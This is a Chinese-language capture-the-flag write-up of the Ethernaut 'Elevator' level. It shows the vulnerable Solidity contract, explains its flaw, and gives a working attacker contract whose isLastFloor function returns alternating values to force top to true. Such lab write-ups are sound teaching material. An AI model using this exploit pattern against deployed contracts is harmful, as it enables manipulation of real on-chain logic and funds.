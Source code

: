 # 11. Elevator
### 原题
```
电梯不会让你达到大楼顶部, 对吧?
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
### 分析
意思是我想到顶楼，但是电梯不让到顶楼。\
刚开始，整个懵逼。\
后来分析了下代码，才明白这个意思。\
到了顶楼，然后能把top值改为true。\
进入条件是“!building.isLastFloor(_floor)”，只有不是顶楼才会修改top值。\
如果到了顶楼，“building.isLastFloor(_floor) == true”,\
是没法修改top为true的。这个整个逻辑是互锁的。\
需要我们想策略使得top等于true。\
如果building.isLastFloor(_floor)第一次调用是false，\
然后第二次调用是true，那就正好可以破解了。\
isLastFloor方法里需要做点技巧了。\
那就需要一个变量来控制输出。\
能够达到每次返回的结果和前一次结果相反。\
有以下方案：\
使用具名返回值，可以不需要return， 这个返回值等于一个状态变量值，\
可以在设置返回值后，再把这个状态变量改成相反的值，\
等待下一次函数的调用再使用

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
  function goTo(uint256 _floor) external ;
}

contract ElevatorAttack {

    bool public rs;
    IElevator public elevator;

    constructor(address _elevator) {
      elevator = IElevator(_elevator);
    }

    function goTo(uint256 _floor) public {
      elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool r) {

      r = rs;
      //r设置为false，接着把rs修改为true，等待下一次执行的时候，r = true
      rs = !rs;
    }

}
```
![alt text](image-3.png)
